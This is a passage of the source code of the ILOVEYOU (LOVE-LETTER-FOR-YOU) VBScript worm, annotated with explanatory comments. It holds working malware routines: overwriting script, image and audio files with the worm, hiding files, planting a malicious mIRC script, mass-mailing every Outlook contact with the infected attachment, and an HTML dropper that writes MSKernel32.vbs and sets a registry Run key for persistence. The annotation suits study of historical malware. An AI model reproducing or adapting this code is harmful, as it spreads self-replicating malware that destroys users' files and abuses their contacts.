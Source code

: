 <html>
 
rem Subroutine to list folders in drives.
Sub listadriv()
  On Error Resume Next
  Dim d, dc, s

  Set dc = fso.Drives

  For Each d In dc
    If (d.DriveType = 2) Or (d.DriveType = 3) Then
      folderlist(d.path & "\")
    End If
  Next

  listadriv = s
End Sub

rem Subroutine infect other files, by copying itself into them as well
rem as creating a malicious mIRC script.
Sub infectfiles(folderspec)
  On Error Resume Next
  Dim f, f1, fc, ext, ap, mircfname, s, bname, mp3

  Set f = fso.GetFolder(folderspec)
  Set fc = f.Files

  For Each f1 In fc
    ext = fso.GetExtensionName(f1.path)
    ext = lcase(ext)
    s = lcase(f1.name)

    rem Copies itself into every file with vbs/vbe extension.
    If (ext = "vbs") Or (ext = "vbe") Then
      Set ap = fso.OpenTextFile(f1.path, 2, true)

      ap.write vbscopy
      ap.close
    rem Copies itself into every file with js/jse/css/wsh/sct/hta extension
    rem and creates a copy of the file with the .vbs extension.
    ElseIf (ext = "js")
      Or (ext = "jse")
      Or (ext = "css")
      Or (ext = "wsh")
      Or (ext = "sct")
      Or (ext = "hta")
    Then
      Set ap = fso.OpenTextFile(f1.path, 2, true)

      ap.write vbscopy
      ap.close
      bname = fso.GetBaseName(f1.path)

      Set cop = fso.GetFile(f1.path)

      cop.copy(folderspec & "\" & bname & ".vbs")
      fso.DeleteFile(f1.path)
    rem Copies itself into every file with jpg/jpeg extension
    rem and creates a copy of the file with the .vbs extension.
    ElseIf (ext = "jpg") Or (ext = "jpeg") Then
      rem Copies itself
      Set ap = fso.OpenTextFile(f1.path, 2, true)

      ap.write vbscopy
      ap.close

      Set cop = fso.GetFile(f1.path)

      cop.copy(f1.path & ".vbs")
      fso.DeleteFile(f1.path)
    rem Copies itself into every file with mp3/mp2 extension.
    ElseIf (ext = "mp3") Or (ext = "mp2") Then
      Set mp3 = fso.CreateTextFile(f1.path & ".vbs")

      mp3.write vbscopy
      mp3.close

      Set att = fso.GetFile(f1.path)
      rem Sets file attributes to make the file Hidden.
      rem Normal files have the attribute set to 0 so adding 2 to it,
      rem will set the attributes to Hidden.
      att.attributes = att.attributes + 2
    End If

    rem Checks if the folder has already been infected, if not it will continue
    rem to infect the files.
    If (eq <> folderspec) Then
      rem Looks for mIRC and related files to determine whether it
      rem should create/replace its script.ini with a malicious script.
      If (s = "mirc32.exe")
        Or (s = "mlink32.exe")
        Or (s = "mirc.ini")
        Or (s = "script.ini")
        Or (s = "mirc.hlp")
      Then
        Set scriptini = fso.CreateTextFile(folderspec & "\script.ini")
        rem The following mIRC script checks if the "nick" of a user is the same
        rem as "me" to halt and send a DCC command that will send a message to
        rem the user with a link to the LOVE=LETTER-FOR-YOU html page on the
        rem system.
        scriptini.WriteLine "[script]"
        scriptini.WriteLine ";mIRC Script"
        scriptini.WriteLine ";  Please dont edit this script... mIRC will corrupt, If mIRC will"
        scriptini.WriteLine "    corrupt... WINDOWS will affect and will not run correctly. thanks"
        scriptini.WriteLine ";"
        scriptini.WriteLine ";Khaled Mardam-Bey"
        scriptini.WriteLine ";http://www.mirc.com"
        scriptini.WriteLine ";"
        scriptini.WriteLine "n0=on 1:JOIN:#:{"
        scriptini.WriteLine "n1=  /If ( $nick == $me ) { halt }"
        scriptini.WriteLine "n2=  /.dcc send $nick" & dirsystem & "\LOVE-LETTER-FOR-YOU.HTM"
        scriptini.WriteLine "n3=}"
        scriptini.close

        eq = folderspec
      End If
    End If
  Next
End Sub

rem Subroutine used to get file listing of a folder.
Sub folderlist(folderspec)
  On Error Resume Next
  Dim f, f1, sf

  Set f = fso.GetFolder(folderspec)
  Set sf = f.SubFolders

  rem Iterates over each subfolder from the given top-level folder and
  rem recursively infect files.
  For Each f1 In sf
    infectfiles(f1.path)
    folderlist(f1.path)
  Next
End Sub

rem Subroutine used to create/write registry entries.
Sub regcreate(regkey,regvalue)
  Set regedit = CreateObject("WScript.Shell")
  regedit.RegWrite regkey, regvalue
End Sub

rem Subroutine used to get registry entries.
Function regget(value)
  Set regedit = CreateObject("WScript.Shell")
  regget = regedit.RegRead(value)
End Function

rem Function to check if a file exists.
Function fileexist(filespec)
  On Error Resume Next
  Dim msg

  If (fso.FileExists(filespec)) Then
    msg = 0
  Else
    msg = 1
  End If

  fileexist = msg
End Function

rem Function to check if a folder exists.
Function folderexist(folderspec)
  On Error Resume Next
  Dim msg

  If (fso.GetFolderExists(folderspec)) Then
    msg = 0
  Else
    msg = 1
  End If

  fileexist = msg
End Function

rem Subroutine to send emails to the user's contacts through MAPI
rem (Messaging Application Programming Interface), the API used by Outlook to
rem communicate with the Microsoft Exchange Server which also hosts calendars
rem and address book.
Sub spreadtoemail()
  On Error Resume Next
  Dim x, a, ctrlists, ctrentries, malead, b, regedit, regv, regad

  rem Creates a shell to edit the registry.
  Set regedit = CreateObject("WScript.Shell")
  rem Creates a new Outlook application object instance, to access the MAPI.
  Set out = WScript.CreateObject("Outlook.Application")
  rem Gets the MAPI namespace used to access the address book lists.
  Set mapi = out.GetNameSpace("MAPI")

  rem Goes through all contacts in the address book and sends an email
  rem with the LOVE-LETTER-FOR-YOU program as an attachment.
  For ctrlists = 1 To mapi.AddressLists.Count
    Set a = mapi.AddressLists(ctrlists)
    x = 1
    rem Gets a registry key that is used to check who has been sent an email,
    rem already to ensure that even if there may be duplicate contacts, it will
    rem only send the email once to the same address.
    regv = regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\" & a)

    If (regv = "") Then
      regv = 1
    End If

    If (int(a.AddressEntries.Count) > int(regv)) Then
      rem Iterates over each entry in the address list.
      For ctrentries = 1 To a.AddressEntries.Count
        malead = a.AddressEntries(x)
        regad = ""
        regad = regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\" & malead )

        rem If the contact hasn't yet been sent an email, a new email will be
        rem composed with the virus attached and a "kind" message and the
        rem subject "ILOVEYOU".
        If (regad = "") Then
          Set male = out.CreateItem(0)

          male.Recipients.Add(malead)
          male.Subject = "ILOVEYOU"
          male.Body = vbcrlf & "kindly check the attached LOVELETTER coming from me."
          male.Attachments.Add(dirsystem & "\LOVE-LETTER-FOR-YOU.TXT.vbs")
          male.Send

          rem Sets the registry key to indicate that the email has been sent
          rem to the current contact.
          regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\" & malead, 1, "REG_DWORD"
        End If

        x = x + 1
      Next

      regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\" & a, a.AddressEntries.Count
    Else
      regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\" & a, a.AddressEntries.Count
    End If
  Next

  Set out = Nothing
  Set mapi = Nothing
End Sub

rem Subroutine to generate and create the HTML file for LOVE-LETTER-FOR-YOU.HTM.
Sub html
  On Error Resume Next
  Dim lines, n, dta1, dta2, dt1, dt2, dt3, dt4, l1, dt5, dt6

  rem Generates an HTML page which contains a JScript and VBScript to replicate
  rem itself by leveraging ActiveX. It also listens for mouse and key events,
  rem which will open additional windows of the same page.
  dta1 = "<HTML><HEAD><TITLE>LOVELETTER - HTML<?-?TITLE><META NAME=@-@Generator@-@ CONTENT=@-@BAROK VBS - LOVELETTER@-@>"
    & vbcrlf & _ "<META NAME=@-@Author@-@ CONTENT=@-@spyder ?-? ispyder@mail.com ?-? @GRAMMERSoft Group ?-? Manila, Philippines ?-? March 2000@-@>"
    & vbcrlf & _ "<META NAME=@-@Description@-@ CONTENT=@-@simple but i think this is good...@-@>"
    & vbcrlf & _ "<?-?HEAD><BODY ONMOUSEOUT=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU.HTM#-#,#-#main#-#)@-@ "
    & vbcrlf & _ "ONKEYDOWN=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU.HTM#-#,#-#main#-#)@-@ BGPROPERTIES=@-@fixed@-@ BGCOLOR=@-@#FF9933@-@>"
    & vbcrlf & _ "<CENTER><p>This HTML file need ActiveX Control<?-?p><p>To Enable to read this HTML file<BR>- Please press #-#YES#-# button to Enable ActiveX<?-?p>"
    & vbcrlf & _ "<?-?CENTER><MARQUEE LOOP=@-@infinite@-@ BGCOLOR=@-@yellow@-@>----------z--------------------z----------<?-?MARQUEE>"
    & vbcrlf & _ "<?-?BODY><?-?HTML>"
    & vbcrlf & _ "<SCRIPT language=@-@JScript@-@>"
    & vbcrlf & _ "<!--?-??-?"
    & vbcrlf & _ "If (window.screen){var wi=screen.availWidth;var hi=screen.availHeight;window.moveTo(0,0);window.resizeTo(wi,hi);}"
    & vbcrlf & _ "?-??-?-->"
    & vbcrlf & _ "<?-?SCRIPT>"
    & vbcrlf & _ "<SCRIPT LANGUAGE=@-@VBScript@-@>"
    & vbcrlf & _ "<!--"
    & vbcrlf & _ "on error resume next"
    & vbcrlf & _ "Dim fso,dirsystem,wri,code,code2,code3,code4,aw,regdit"
    & vbcrlf & _ "aw=1"
    & vbcrlf & _ "code="

  dta2 = "Set fso=CreateObject(@-@Scripting.FileSystemObject@-@)"
    & vbcrlf & _ "Set dirsystem=fso.GetSpecialFolder(1)"
    & vbcrlf & _ "code2=replace(code,chr(91)&chr(45)&chr(91),chr(39))"
    & vbcrlf & _ "code3=replace(code2,chr(93)&chr(45)&chr(93),chr(34))"
    & vbcrlf & _ "code4=replace(code3,chr(37)&chr(45)&chr(37),chr(92))"
    & vbcrlf & _ "set wri=fso.CreateTextFile(dirsystem&@-@^-^MSKernel32.vbs@-@)"
    & vbcrlf & _ "wri.write code4"
    & vbcrlf & _ "wri.close"
    & vbcrlf & _ "If (fso.FileExists(dirsystem&@-@^-^MSKernel32.vbs@-@)) Then"
    & vbcrlf & _ "If (err.number=424) Then"
    & vbcrlf & _ "aw=0"
    & vbcrlf & _ "End If"
    & vbcrlf & _ "If (aw=1) Then"
    & vbcrlf & _ "document.write @-@ERROR: can#-#t initialize ActiveX@-@"
    & vbcrlf & _ "window.close"
    & vbcrlf & _ "End If"
    & vbcrlf & _ "End If"
    & vbcrlf & _ "Set regedit = CreateObject(@-@WScript.Shell@-@)"
    & vbcrlf & _ "regedit.RegWrite@-@HKEY_LOCAL_MACHINE^-^Software^-^Microsoft^-^Windows^-^CurrentVersion^-^Run^-^MSKernel32@-@,dirsystem&@-@^-^MSKernel32.vbs@-@"

